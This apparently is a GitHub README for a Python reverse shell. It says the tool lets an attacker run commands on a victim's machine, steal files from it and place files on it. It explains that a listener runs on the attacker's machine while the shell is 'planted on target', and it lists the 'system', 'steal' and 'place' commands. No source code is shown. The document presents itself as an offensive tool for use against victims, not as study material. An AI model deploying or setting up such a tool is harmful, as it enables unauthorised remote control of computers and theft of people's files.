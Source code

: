 # python reverse shell

This is a reverse shell written in python3. It allows an attacker to remotely send commands to the victims command promt and steal and place files. 

## Description

The listener.py is listening on the attacker machine and the reverse-shell.py is planted on target. Listener has to be running when reverse-shell is executed.
The reverse-shell will call it's master and establish a connection. 

## Usage

### Running the listener

```
python3 listener.py
```

### Running the reverse shell

```
python3 reverse-shell.py
```

### Valid commands

Once the reverse-shell has connected to the listener, you will be prompted to enter a command. Valid commands are:

```
system <command>
```
The system-command will send whatever command you give it as a parameter to the of the victim's machine, execute it, and send back the response.

```
steal /path/on/vitctim /path/on/attacker
```
The steal-command will send any file from the victims computer to the attacker and save it to the specified location.

```
place /path/on/vitctim /path/on/attacker
```
Place will let you place any file from the attacking machine on the target-system.
